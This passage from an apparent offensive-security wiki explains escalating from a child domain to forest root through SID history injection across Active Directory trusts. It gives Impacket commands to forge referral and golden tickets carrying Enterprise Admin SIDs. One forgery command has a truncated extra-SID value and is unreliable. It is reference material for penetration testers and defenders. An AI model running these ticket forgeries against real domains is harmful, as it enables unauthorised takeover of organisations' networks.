  > For example the Exchange security groups, which allow for a [privilege escalation to DA](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/) in many setups all have RIDs larger than 1000. Also many organisations will have custom groups for workstation admins or helpdesks that are given local Administrator privileges on workstations or servers.
 >
 > _(by_ [_Dirk-jan Mollema_](https://twitter.com/_dirkjan) _on_ [_dirkjanm.io_](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/)_)_
* If SID filtering is fully enabled, the techniques presented above will not work since all SIDs that differ from the trusted domain will be filtered out. This is usually the case with standard inter-forest trusts. Attackers must then fall back to other methods of [permissions abuse](index#abusing-permissions). Alternatively, there are a few SIDs that won't be filtered out (see [SID filtering](index#sid-filtering) theory and [SID filtering bypass](index#sid-filtering-bypass) practice).

> [!TIP]
> If the attacker chooses to forge an inter-realm ticket forgery (i.e. referral ticket), a service ticket request must be conducted before trying to access the domain controller. In the case of a golden ticket, the target domain controller will do the hard work itself. Once the last ticket is obtained, it can be used with [pass-the-ticket](../kerberos/ptt) for the [DCSync](../credentials/dumping/dcsync) (if enough privileges, or any other operation if not).


::: tabs

=== UNIX-like

From UNIX-like systems, [Impacket](https://github.com/fortra/impacket) scripts (Python) can be used for that purpose.

* ticketer.py to forge tickets
* getST.py to request service tickets
* lookupsid.py to retrieve the domains' SIDs

If SID filtering is disabled, set the RID to 519 to act as Enterprise Admin.

If SID filtering is partially enabled, set the RID >=1000.

##### Referral ticket
```bash
# 1. forge the ticket
ticketer.py -nthash "inter-realm key" -domain-sid "child_domain_SID" -domain "child_domain_FQDN" -extra-sid "<root_domain_SID>-<RID>" -spn "krbtgt/root_domain_fqdn" "someusername"

# 2. use it to request a service ticket
KRB5CCNAME="someusername.ccache" getST.py -k -no-pass -debug -spn "CIFS/domain_controller" "root_domain_fqdn/someusername@root_domain_fqdn"
```


```bash
ticketer.py -nthash "child_domain_krbtgt_NT_hash" -domain-sid "child_domain_SID" -domain "child_domain_FQDN" -extra-sid "-" "someusername"
```


Impacket's [raiseChild.py](https://github.com/fortra/impacket/blob/master/examples/raiseChild.py) script can also be used to conduct the golden ticket technique automatically when SID filtering is disabled (retrieving the SIDs, dumping the trusted domain's krbtgt, forging the ticket, dumping the forest root keys, etc.). It will forge a ticket with the Enterprise Admins extra SID.

